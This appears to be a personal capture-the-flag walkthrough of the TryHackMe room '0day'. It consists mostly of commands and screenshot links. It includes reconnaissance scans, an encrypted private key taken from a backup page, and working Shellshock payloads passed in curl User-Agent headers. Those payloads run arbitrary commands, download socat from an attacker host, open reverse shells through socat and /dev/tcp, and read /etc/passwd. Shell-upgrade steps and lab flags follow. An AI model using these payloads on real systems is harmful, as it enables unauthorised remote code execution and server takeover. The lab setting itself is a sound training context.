 ## 08082023Tue

[TryHackMe | 0day](https://tryhackme.com/room/0day)

```
Exploit Ubuntu, like a Turtle in a Hurricane
```

![[Pasted image 20230808114325.png]]

![[Pasted image 20230808114627.png]]

[0day -- Writeup | MuirlandOracle | Blog](https://muirlandoracle.co.uk/2020/09/03/0day-writeup/)

```
nmap -p- -vv 10.10.238.56 -oG initial-scan
```

![[Pasted image 20230808115246.png]]
![[Pasted image 20230808115323.png]]

```
nmap -p 22,80 -vv -sV -sC 10.10.238.56 -oN common-scan
```

![[Pasted image 20230808125809.png]]

```
nikto --url 10.10.238.56 | tee nikto-results
```
![[Pasted image 20230808140801.png]]
http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278

view-source:http://0day.thm/secret/
```
<html>
<head>
<title>Turtles?</title>
</head>
<body>
<center><img src="turtle.png"></center>
</body>
</html>
```
![[Pasted image 20230808130809.png]]

view-source:http://0day.thm/backup/
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547

T7+F+3ilm5FcFZx24mnrugMY455vI461ziMb4NYk9YJV5uwcrx4QflP2Q2Vk8phx
H4P+PLb79nCc0SrBOPBlB0V3pjLJbf2hKbZazFLtq4FjZq66aLLIr2dRw74MzHSM
FznFI7jsxYFwPUqZtkz5sTcX1afch+IU5/Id4zTTsCO8qqs6qv5QkMXVGs77F2kS
Lafx0mJdcuu/5aR3NjNVtluKZyiXInskXiC01+Ynhkqjl4Iy7fEzn2qZnKKPVPv8
9zlECjERSysbUKYccnFknB1DwuJExD/erGRiLBYOGuMatc+EoagKkGpSZm4FtcIO
IrwxeyChI32vJs9W93PUqHMgCJGXEpY7/INMUQahDf3wnlVhBC10UWH9piIOupNN
SkjSbrIxOgWJhIcpE9BLVUE4ndAMi3t05MY1U0ko7/vvhzndeZcWhVJ3SdcIAx4g
/5D/YqcLtt/tKbLyuyggk23NzuspnbUwZWoo5fvg+jEgRud90s4dDWMEURGdB2Wt
w7uYJFhjijw8tw8WwaPHHQeYtHgrtwhmC/gLj1gxAq532QAgmXGoazXd3IeFRtGB
6+HLDl8VRDz1/4iZhafDC2gihKeWOjmLh83QqKwa4s1XIB6BKPZS/OgyM4RMnN3u
Zmv1rDPL+0yzt6A5BHENXfkNfFWRWQxvKtiGlSLmywPP5OHnv0mzb16QG0Es1FPl
xhVyHt/WKlaVZfTdrJneTn8Uu3vZ82MFf+evbdMPZMx9Xc3Ix7/hFeIxCdoMN4i6
8BoZFQBcoJaOufnLkTC0hHxN7T/t/QvcaIsWSFWdgwwnYFaJncHeEj7d1hnmsAii
b79Dfy384/lnjZMtX1NXIEghzQj5ga8TFnHe8umDNx5Cq5GpYN1BUtfWFYqtkGcn
vzLSJM07RAgqA+SPAY8lCnXe8gN+Nv/9+/+/uiefeFtOmrpDU2kRfr9JhZYx9TkL
wTqOP0XWjqufWNEIXXIpwXFctpZaEQcC40LpbBGTDiVWTQyx8AuI6YOfIt+k64fG
rtfjWPVv3yGOJmiqQOa8/pDGgtNPgnJmFFrBy2d37KzSoNpTlXmeT/drkeTaP6YW
RTz8Ieg+fmVtsgQelZQ44mhy0vE48o92Kxj3uAB6jZp8jxgACpcNBt3isg7H/dq6
oYiTtCJrL3IctTrEuBW8gE37UbSRqTuj9Foy+ynGmNPx5HQeC5aO/GoeSH0FelTk
cQKiDDxHq7mLMJZJO0oqdJfs6Jt/JO4gzdBh3Jt0gBoKnXMVY7P5u8da/4sV+kJE
99x7Dh8YXnj1As2gY+MMQHVuvCpnwRR7XLmK8Fj3TZU+WHK5P6W5fLK7u3MVt1eq
Ezf26lghbnEUn17KKu+VQ6EdIPL150HSks5V+2fC8JTQ1fl3rI9vowPPuC8aNj+Q
Qu5m65A5Urmr8Y01/Wjqn2wC7upxzt6hNBIMbcNrndZkg80feKZ8RD7wE7Exll2h
v3SBMMCT5ZrBFq54ia0ohThQ8hklPqYhdSebkQtU5HPYh+EL/vU1L9PfGv0zipst
gbLFOSPp+GmklnRpihaXaGYXsoKfXvAxGCVIhbaWLAp5AybIiXHyBWsbhbSRMK+P
-----END RSA PRIVATE KEY-----
```

![[Pasted image 20230808131034.png]]


```
curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/whoami;" http://10.10.238.56/cgi-bin/test.cgi
```
![[Pasted image 20230808131900.png]]
![[Pasted image 20230808132054.png]]
![[Pasted image 20230808132234.png]]

```
python3 -m http.server 80
```

```
sudo socat tcp-l:53 file:`tty`,raw,echo=0
```

```
curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/wget 10.17.44.152/socat -q -O /tmp/socat; /bin/chmod +x /tmp/socat" http://10.10.238.56/cgi-bin/test.cgi
```
![[Pasted image 20230808132610.png]]
![[Pasted image 20230808132638.png]]

```
curl -A "() { :;}; echo Content-Type: text/html; echo; /tmp/socat tcp:10.17.44.152:53 exec:'bash -li',pty,stderr,sigint,setsid,sane" http://10.10.238.56/cgi-bin/test.cgi
```


```
curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/whoami;" http://10.10.124.16/cgi-bin/test.cgi
```

```
curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/wget 10.17.44.152/socat -q -O /tmp/socat; /bin/chmod +x /tmp/socat" http://10.10.124.16/cgi-bin/test.cgi
```

```
curl -A "() { :;}; echo Content-Type: text/html; echo; /tmp/socat tcp:10.17.44.152:53 exec:'bash -li',pty,stderr,sigint,setsid,sane" http://10.10.124.16/cgi-bin/test.cgi
```

![[Pasted image 20230808161225.png]]

```
THM{Sh3llSh0ck_r0ckz}
```

![[Pasted image 20230808161913.png]]

![[Pasted image 20230808162110.png]]

```
curl -A "() { :;}; echo Content-Type: text/html; echo;/bin/cat /etc/passwd;" http://10.10.124.16/cgi-bin/test.cgi
```
![[Pasted image 20230808162601.png]]


https://medium.com/@maftei.alexandru2017/0day-thm-write-up-36294e39635f

```
/bin/bash -c '/bin/bash -i >& /dev/tcp/10.17.44.152/1337 0>&1'
```

```
nc -lvp 1337
```

```
curl -A "() { :;}; echo Content-Type: text/html; echo;/bin/bash -c '/bin/bash -i >& /dev/tcp/10.17.44.152/1337 0>&1';" http://10.10.124.16/cgi-bin/test.cgi
```

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
stty raw -echo
```

```
fg
```

```
export TERM=xterm
```

![[Pasted image 20230808164203.png]]
![[Pasted image 20230808164223.png]]

https://github.com/0x00nullSec/writeups/blob/master/0Day/0day.md

https://www.exploit-db.com/exploits/37292


![[Pasted image 20230808170337.png]]
![[Pasted image 20230808170624.png]]

```
THM{g00d_j0b_0day_is_Pleased}
```

![[Pasted image 20230808172143.png]]

![[Pasted image 20230808172326.png]]


